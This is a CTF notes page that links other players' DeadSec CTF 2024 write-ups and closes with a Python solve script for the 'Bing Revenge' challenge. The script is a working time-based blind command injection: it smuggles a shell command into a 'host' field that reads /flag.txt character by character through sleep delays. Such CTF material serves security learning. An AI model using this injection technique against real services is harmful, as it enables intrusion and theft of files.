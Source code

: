 ```yaml
---
layout: note
title: DeadSec CTF Writeups (By Others)
---
```


> All the usernames mentioned below are discord usernames
{: .prompt-info}

**By @dasrealbert**
- <https://bertsec.com/2024/07/27/deadsec-ctf-2024-mic-check/><br>
- <https://bertsec.com/2024/07/27/deadsec-ctf-2024-financial-supporter/><br>
- <https://bertsec.com/2024/07/26/deadsec-ctf-2024-windows-server/><br>
- <https://bertsec.com/2024/07/26/deadsec-ctf-2024-bing-2/><br>
- <https://bertsec.com/2024/07/26/deadsec-ctf-2024-welcome/><br>

**By @smiley7719**
- <https://github.com/rerrorctf/writeups/tree/main/2024_07_26_DeadSecCTF24>

**By @y.k.z**
- <https://yun.ng/c/ctf/2024-deadsec-ctf/crypto/not-an-active-field-for-a-reason><br>
- <https://yun.ng/c/ctf/2024-deadsec-ctf/misc/man-in-the-middle><br>
- <https://yun.ng/c/ctf/2024-deadsec-ctf/misc/golparty><br>
- <https://yun.ng/c/ctf/2024-deadsec-ctf/web/buntime><br>
- <https://yun.ng/c/ctf/2024-deadsec-ctf/web/colorful-board><br>
- <https://yun.ng/c/ctf/2024-deadsec-ctf/web/retrocalc> <br>

**By @babbadeckl**
- Solve script for `Bing Revenge`

```python
import requests
import string

base_time = ''
flag= ''
url = 'http://localhost:7000/flag'
url = 'https://TEAM_URL.deadsec.quest/flag'

session = requests.Session()
response_baseline= session.post(url, data={'host':'127.0.0.1'}, headers={'Content-Type':'application/x-www-form-urlencoded'})
time_baseline = response_baseline.elapsed.total_seconds()

#after a few char leaks it was pretty obvious that it was a uuid4, so i adjusted the alphabet accordingly 
alphabet = string.digits + string.ascii_lowercase + '-' + '}' + '{' 

print(f"Time Baseline: {time_baseline}")

for i in range(len(flag)+1,50):
    print(f"[Round {i}]")
    for char in alphabet:
        payload = {'host':f'127.0.0.1;if [ $(cat /flag.txt|cut -c {i}) = {char} ]; then sleep 5; fi'}
        print(f"Current payload: {payload}")
        response = session.post(url, data=payload, headers={'Content-Type':'application/x-www-form-urlencoded'})
        if response.elapsed.total_seconds() > time_baseline + 4:
            flag += char
            print(f"[*] Found new char '{char}'. Flag: '{flag}'")
            break
```
